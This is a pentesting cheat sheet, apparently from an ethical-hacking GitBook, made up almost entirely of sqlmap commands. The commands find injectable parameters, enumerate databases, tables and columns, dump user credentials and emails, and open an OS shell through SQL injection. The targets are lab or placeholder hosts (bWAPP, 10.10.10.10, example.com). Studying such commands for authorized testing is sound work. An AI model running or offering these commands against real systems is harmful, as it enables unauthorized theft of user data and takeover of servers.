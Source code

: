 # 4.3.6 SQLMap

## **SQLMap**

```bash
sqlmap -r <REQUEST_FILE> -p <POST_PARAMETER>
sqlmap -r Post.req

sqlmap -u "http://<TARGET_IP>/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title

sqlmap -u "http://10.10.10.10/file.php?id=1" -p id          #GET Method
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin"      #POST Method
```

### **Get database if injection Exists**

```bash
sqlmap -r login.req --dbs
sqlmap -u "http://10.10.10.10/file.php?id=1" --dbs    #determine the databases:
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id --dbs    #GET Method
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" --dbs #POST Method

# List databases
sqlmap -u "http://<TARGET_IP>/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title --dbs
sqlmap -u "http://<TARGET_IP>/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP --tables
sqlmap -u "http://<TARGET_IP>/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP -T users --columns
sqlmap -u "http://<TARGET_IP>/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP -T users -C admin,password,email --dump
```

### **Get Tables in a Database**

```bash
sqlmap -r login.req -D dbname --tables    #determine the tables:
sqlmap -u "http://10.10.10.10/file.php?id=1" -D dbname --common-tables    #if tables not available, guess tables using common names
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname --tables        #GET Method
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname --tables #POST Method
```

### **Get data in a Database tables**

```bash
sqlmap -r login.req -D dbname -T table_name --dump
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname -T table_name --dump      #GET Method
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump   #POST Method
```

### **Get OS-Shell**

```bash
sqlmap -u "http://10.10.10.10/file.php?id=1" --os-shell
```

## **Example of usage**

### **Dumping emails from a table**

```bash
sqlmap -u 'http://example.com/api/items/view?type_id=popular_items&data[0][item_id][from]=?&data[0][item_id][to]=' \
-p "data[0][item_id][to]" --dbms=mysql --level=5 --risk=3 \
--technique=EUBT -D ecommerce -T users -C email --dump
```

**Common parameters**

* `-u`: The vulnerable URL.
* `-p`: The parameter you suspect is injectable.
* `--dbms=mysql`: You know the backend DBMS is MySQL.
* `--level=5 --risk=3`: Enables deeper and riskier tests.
* `--technique=EUBT`: Restricts the type of SQLi techniques used (Error, Union, Boolean, Time-based).
* `-D ecommerce`: Targeting the `ecommerce` database.
* `-T users`: Looking into the `users` table.
* `-C email`: Only extracting the `email` column.
* `--dump`: Actually retrieves the data.

### **Listing columns of a table**

```bash
sqlmap -u 'http://example.com/api/items/view?type_id=popular_items&data[0][item_id][from]=?&data[0][item_id][to]=' \
-p "data[0][item_id][to]" --dbms=mysql --level=5 --risk=3 \
--technique=EUBT -D ecommerce -T users --columns
```

### **Dumping usernames**

```bash
sqlmap -u 'http://example.com/api/items/view?type_id=popular_items&data[0][item_id][from]=?&data[0][item_id][to]=' \
-p "data[0][item_id][to]" --dbms=mysql --level=5 --risk=3 \
--technique=EUBT -D ecommerce -T users -C username --dump
```

### **Listing columns of the `users` table again (can be used for planning further dumps)**

```bash
sqlmap -u 'http://example.com/api/items/view?type_id=popular_items&data[0][item_id][from]=?&data[0][item_id][to]=' \
-p "data[0][item_id][to]" --dbms=mysql --level=5 --risk=3 \
--technique=EUBT -D ecommerce -T users --columns
```

### **Enumerating tables with specific prefix/suffix**

```bash
sqlmap -u 'http://example.com/api/items/view?type_id=popular_items&data[0][item_id][from]=?&data[0][item_id][to]=' \
-p "data[0][item_id][to]" --dbms=mysql --level=5 --risk=3 \
--technique=EUBT --current-db --prefix="ecom_" --suffix="_log" --tables
```





{% content-ref url="https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/sqlmap" %}
[SQLMap](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/sqlmap)
{% endcontent-ref %}

